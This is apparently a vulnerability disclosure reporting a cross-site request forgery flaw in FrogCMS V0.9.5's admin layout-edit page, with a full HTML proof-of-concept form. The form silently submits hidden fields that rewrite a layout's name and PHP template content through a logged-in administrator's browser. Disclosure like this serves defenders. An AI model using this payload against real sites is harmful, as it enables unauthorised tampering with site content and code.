
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/layout/edit/1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/layout/edit/1" method="POST">
      <input type="hidden" name="/layout/edit/1" value="" />
<input type="hidden" name="layout%5Bname%5D" value="none12" />
<input type="hidden" name="layout%5Bcontent_type%5D" value="text%2Fhtml" />
<input type="hidden" name="layout%5Bcontent%5D" value="%3C%3Fphp+echo+%24this-%3Econtent%28%29%3B+%3F%3E" />
<input type="hidden" name="commit" value="Save" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

